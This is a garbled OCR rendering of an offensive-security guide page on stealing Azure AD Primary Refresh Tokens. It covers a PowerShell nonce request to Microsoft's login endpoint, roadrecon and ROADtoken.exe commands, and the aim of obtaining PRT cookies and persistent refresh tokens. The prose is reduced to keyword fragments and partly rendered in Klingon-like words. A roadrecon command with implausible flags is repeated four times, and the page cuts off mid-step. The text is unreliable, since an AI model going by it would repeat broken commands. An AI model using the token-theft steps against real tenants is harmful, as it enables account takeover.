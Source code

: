 **Primary Refresh Token (PRT)** **(PRT)** **`refresh_token`** **`is_primary`** `request_nonce` **LSASS** **KDF context** **session key** **derivate** **key** **derived key** **sign the PRT cookie (JWT)** **KDF context** **JWT** **context** **PRT** **LSASS** **request derived keys from new contexts and use the generated keys to sign Cookies** **PRT usage** **native apps** **Web Account Manager** **LSASS** **browser based (web) flow** **PRT cookie** **header** **SYSTEM** **steal the PRT if not protected** **interact with PRT keys in LSASS** **Attack - ROADtoken** **`BrowserCore.exe`** **obtain a PRT cookie** **ROADtools** **obtain a persistent refresh token**
```powershell
$TenantId = "19a03645-a17b-129e-a8eb-109ea7644bed"
$URL = "https://login.microsoftonline.com/$TenantId/oauth2/token"

$Params = @{
"URI"     = $URL
"Method"  = "POST"
}
$Body = @{
"grant_type" = "srv_challenge"
}
$Result = Invoke-RestMethod @Params -UseBasicParsing -Body $Body
$Result.Nonce
AwABAAAAAAACAOz_BAD0_8vU8dH9Bb0ciqF_haudN2OkDdyluIE2zHStmEQdUVbiSUaQi_EdsWfi1 9-EKrlyme4TaOHIBG24v-FBV96nHNMgAA
```
**roadrecon** [**ghItlh**](https://github.com/dirkjanm/ROADtools) **DIrQjanm/ROADtools** **Daq**:

```bash
python3 roadrecon.py -u <username> -p <password> -d <domain> -r <resource_group> -s <subscription_id> -t <tenant_id> -c <client_id> -k <client_secret> -a <app_id> -b <app_secret> -g <group_id> -l <location> -f <file> -i <ip_address> -n <network> -o <output> -v <verbose>
```

**ghItlh** **roadrecon** **DIrQjanm/ROADtools** **Daq**:

```bash
python3 roadrecon.py -u <username> -p <password> -d <domain> -r <resource_group> -s <subscription_id> -t <tenant_id> -c <client_id> -k <client_secret> -a <app_id> -b <app_secret> -g <group_id> -l <location> -f <file> -i <ip_address> -n <network> -o <output> -v <verbose>
```

**roadrecon** **ghItlh** **DIrQjanm/ROADtools** **Daq**:

```bash
python3 roadrecon.py -u <username> -p <password> -d <domain> -r <resource_group> -s <subscription_id> -t <tenant_id> -c <client_id> -k <client_secret> -a <app_id> -b <app_secret> -g <group_id> -l <location> -f <file> -i <ip_address> -n <network> -o <output> -v <verbose>
```

**ghItlh** **roadrecon** **DIrQjanm/ROADtools** **Daq**:

```bash
python3 roadrecon.py -u <username> -p <password> -d <domain> -r <resource_group> -s <subscription_id> -t <tenant_id> -c <client_id> -k <client_secret> -a <app_id> -b <app_secret> -g <group_id> -l <location> -f <file> -i <ip_address> -n <network> -o <output> -v <verbose>
```
```powershell
roadrecon auth prt-init
```
DaH jImej [**roadtoken**](https://github.com/dirkjanm/ROADtoken) vItlhutlh PRT (ghItlhvam vItlhutlh tool 'e' vItlhutlh user process attack):
```powershell
.\ROADtoken.exe <nonce>
```
As oneliner:
